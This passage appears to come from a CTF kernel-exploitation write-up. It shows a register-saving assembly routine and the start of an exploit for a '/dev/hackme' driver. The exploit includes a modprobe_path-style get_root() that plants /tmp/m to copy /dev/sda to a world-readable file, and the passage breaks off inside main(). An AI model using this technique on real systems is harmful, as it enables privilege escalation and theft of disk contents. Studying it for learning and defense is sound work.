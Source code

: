 ```c
void save_state(){
    __asm__(
        ".intel_syntax noprefix;"
        "mov user_cs, cs;"
        "mov user_ss, ss;"
        "mov user_sp, rsp;"
        "pushf;"
        "pop user_rflags;"
        ".att_syntax;"
    );
}
 ```
 
The final exploit code is:
```c
#define _GNU_SOURCE
#include <stdio.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <sched.h>
#include <sys/mman.h>
#include <signal.h>
#include <sys/syscall.h>
#include <sys/ioctl.h>
#include <linux/userfaultfd.h>
#include <sys/wait.h>
#include <poll.h>
#include <unistd.h>
#include <stdlib.h>

unsigned long user_cs, user_ss, user_rflags, user_sp;

void save_state(){
    __asm__(
        ".intel_syntax noprefix;"
        "mov user_cs, cs;"
        "mov user_ss, ss;"
        "mov user_sp, rsp;"
        "pushf;"
        "pop user_rflags;"
        ".att_syntax;"
    );
}

void get_root(void){
	system("echo '#!/bin/sh\ncp /dev/sda /tmp/flag\nchmod 777 /tmp/flag' > /tmp/m");
	system("chmod +x /tmp/m");
	system("echo -ne '\\xff\\xff\\xff\\xff' > /tmp/dummy");
	system("chmod +x /tmp/dummy");
	system("/tmp/dummy");
	system("cat /tmp/flag");
	exit(0);
}

int fd;

int main(){
	save_state();
	fd = open("/dev/hackme", O_RDWR);
	if (fd < 0){
		printf("Device Not Opened\n");
		return -1;
	}
```